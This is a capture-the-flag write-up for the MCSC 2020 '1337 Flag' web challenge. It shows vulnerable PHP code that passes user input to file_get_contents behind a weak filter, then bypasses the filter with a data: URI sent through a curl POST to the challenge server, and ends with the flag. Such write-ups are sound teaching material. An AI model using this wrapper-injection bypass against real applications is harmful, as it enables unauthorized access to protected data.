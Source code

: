 ## MCSC 2020
### 1337 Flag (Web)

![1337 Flag](./img/ss1.png)

Let's check out that page

```php
<?php

require_once('flag.php');
error_reporting(0);

if(!isset($_POST['msg'])){
    highlight_file(__FILE__);
    die();
}

$msg = $_POST['msg'];
$msg = str_replace( array( "php","/" ), "", $msg );
if(@file_get_contents($msg)!=="133720"){
    die();
}

echo $flag;

```
It shows its source code
But we can see here
```php
$msg = $_POST['msg'];
$msg = str_replace( array( "php","/" ), "", $msg );
if(@file_get_contents($msg)!=="133720"){
    die();
}
```
we can see POST parameter ```$msg```
But, ```php``` and ```/``` in msg will be removed. So, we can't exploit with ```Remote File```.

But ```Data wrapper``` will work
```php
data:,133720
```
So, let's exploit it
[Here I use command ```curl```]
```shell
curl -d 'msg=data:,133720' -X POST http://103.89.49.14/a38e83e34ef85b1ed944e40c2a5eb481/index.php
```
Outputs
> MCSC{PHP_With_Data_UrI_LeaRning}